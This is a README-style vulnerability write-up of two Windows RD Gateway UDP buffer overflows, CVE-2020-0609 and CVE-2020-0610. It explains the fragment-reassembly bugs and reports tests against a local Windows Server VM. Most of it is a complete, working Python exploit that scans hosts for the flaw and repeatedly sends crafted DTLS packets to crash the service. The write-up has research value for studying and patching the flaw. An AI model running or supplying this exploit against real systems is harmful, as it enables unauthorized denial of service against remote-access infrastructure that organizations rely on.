 # CVE-2020-0609 & CVE-2020-0610

## Bug Overview

For Windows RDP service based on UDP, the application(service) has to handle the incoming packets and re-assemble them in the correct order as well as ensure that no parts are missing.

This information is obtained from the packet headers which have the following fields:
- `fragment id` : Denotes the fragment's position in the sequence
- `num_fragments` : Denotes the total number of fragment in the sequence
- `fragment_length` : Denotes the length of the fragment's data

The implementation of the packet handler in the Windows RDP service introduces some bugs. The below mentioned code snippets are parts of this handler function being used to demonstrate the bugs.

### 1. CVE-2020-0609 : Buffer Overflow(Vuln 1)

```c++
if ((this->bytes_written + packet->fragment_len) > this->buffer_size)
    return error;

/*
    some more code
*/

memcpy_s(&this->buffer[1000 * packet->fragment_id], 1000, &packet->fragment, packet->fragment_len);

this->bytes_written += packet->fragment_len;
```

The first line of the above code snippet is a **bounds check** on the (re-assembly) buffer. `memcpy_s` copies each fragment to an offset in the buffer which is calculated using the `fragment_id `, while the third line notes the update of the `bytes_written` variable being used in the bounds check.

Noting that the offset is not being used in the bounds check, we realize that this is a simple buffer overflow in which we control both the offset and the length of the data being written.

### 2. CVE-2020-0610 : Buffer Overflow(Vuln 2)
``` c++
if (this->frag_received[fragment_id]) 
    return ok;

/*
    some more code
*/

this->frag_received[fragment_id] = TRUE;
```

This code snippet shows that whenever any packet is verified, it's marked as received so as to not worry about the same packet being received multiple times. The array `this->frag_received` has space for only upto 64 entries, but the `fragment_id` can be any number between 0 to 65535; and hence, this also is a buffer overflow, however with each received fragment just 1 bit is being modified.

## Environment

A local VM running Windows Server 2019 (`Build Version - 10.0.0.17763.914-amd64`) has been spawned, and UDP mode of Remote Desktop Gateway has been enabled on the same on port `3391`. Our python exploit resides on the host and sends crafter packets to the VM.

Our code to exploit the vulnerability is as follows:

### Exploit

```python

from pwn import *
from argparse import *
from cryptography.hazmat.bindings.openssl.binding import Binding
from OpenSSL import SSL
import select

TIMEOUT = 3

# need DTLS sockets

RED = '\033[31m'
GREEN = '\033[32m'
BLUE = '\033[34m'
RESET = '\033[0m'


def good(s):
    print(f'{GREEN}[>] {s} {RESET}'.format())


def bad(s):
    print(f'{RED}[>] {s} {RESET}'.format())


def ok(s):
    print(f'{BLUE}[>] {s} {RESET}'.format())

# DTLS
def init_dtls():
    binding = Binding()
    binding.init_static_locks()
    SSL.Context._methods[0] = getattr(binding.lib, "DTLSv1_client_method")




class Packet:
    def __init__(self, fragment, packet_id, fragment_id, num_fragments):

        self.fragment = fragment
        self.packet_id = packet_id
        self.fragment_id = fragment_id
        self.num_fragments = num_fragments

    def __bytes__(self):
        return (struct.pack("<HHHHH",
                            self.packet_id,           # packet id
                            len(self.fragment) + 6,   # packet length
                            self.fragment_id,         # fragment id
                            self.num_fragments,  # number of fragments
                            len(self.fragment)      # fragment length
                            ) + self.fragment)


class Connection:
    def __init__(self, host, port):
        init_dtls()
        ok(f"Connecting to {host} at {port}".format())
        self.socket = socket.socket(
            socket.AF_INET, socket.SOCK_DGRAM)
        self.connec = SSL.Connection(SSL.Context(0), self.socket)
        self.connec.connect((host, port))
        self.connec.do_handshake()

    def send(self, packet: Packet):
        self.connec.send(bytes(packet))

    def recv(self, size):
        return self.connec.recv(size)

    def check(self):
        pk = Packet(b"\x00", 5, 65, 66)
        self.send(pk)

        ready = select.select([self.socket], [], [], TIMEOUT)
        if ready[0]:
            res = self.recv(16)

            x = not (0x8000ffff == struct.unpack('<L', res[-4:])[0])

            if (x):
                good("Host is vulnerable")
            else:
                good("Host is not vulnerable")
        else:
            good("Host is vulnerable")

    def dos(self, x):
        pk = Packet(b"\x20" * 1000, 5, x, x)
        self.send(pk)


if __name__ == "__main__":
    p = ArgumentParser()
    choices = ["check", "dos"]
    p.add_argument("--ip", default='127.0.0.1',
                   help="IP", required=False, type=str)
    p.add_argument("--port", default=3391, help="UDP port",
                   required=False, type=int)
    p.add_argument("--attack", default="check", help="Attack type",
                   required=False, type=str, choices=choices)

    args = p.parse_args()
    attack = choices.index(args.attack)

    if (attack == 0):
        c = Connection(args.ip, args.port)
        c.check()

    elif (attack == 1):
        x = 0
        while True:
            c = Connection(args.ip, args.port)
            for i in range(50):
                c.dos(x + i)
            x += 1
```

```
    Usage : python3 exploit.py [-h] [--ip IP] [--port PORT] [--attack {check,dos}]

```

## Report

We have managed to attack the vulnerability in the following two ways -

### 1. Scanning for the vulnerability

**CVE-2020-0610** has been scanned for, using a crafted packet whose `fragment_id` has been (maliciously) chosen to be `65`(along with `num_fragments` being `66` since it has to be `> fragment_id`).   
Such a packet is not acceptable on the patched version and returns an error(patched version has a check saying `packet->fragment_id > 64` returns error); while the unpatched version returns no error but goes on executing further. Thus, no error received demonstrates that the vulnerability exists.

Scanning for solely **CVE-2020-0609** seems quite difficult since the buffer is supposed to be able to accomodate atleast the maximum number of fragments truly possible(which is `64` actually) and therefore, the buffer size would be atleast `64*1000` bytes and in such a case, a buffer overflow in `this->buffer` is impossible to happen with `fragment_id < 64`. (The buffer is long enough to prevent from overwriting neighbouring data with just **CVE-2020-0609**).

### 2. DoSing the host

The host can be DoSed by exploiting **CVE-2020-0610** using crafted packets having `fragment_id >= 64`. Our exploit connects to the server multiple times and sends such malicious packets over and over again, causing the service to eventually be shut down. 

In our exploit, we've tried to not trigger the other vulnerability by choosing the fragments to have `fragment_size` of `1000` bytes and sending the fragments with increasing `fragment_id`; such as to ensure that `this->bytes_written` gets incremented by exactly `1000`(which is also the number of bytes being copied into the buffer). However, since the underlying protocol is UDP, we cannot be definitely sure that this is the case.

Once again, exploiting solely **CVE-2020-0609** to DoS the host is impossible due to the exact same reason as mentioned above.

> Note that both the exploits could be exploited simultaneously but that doesn't add to anything.
> Our exploits would still be similar and so would the results obtained be!
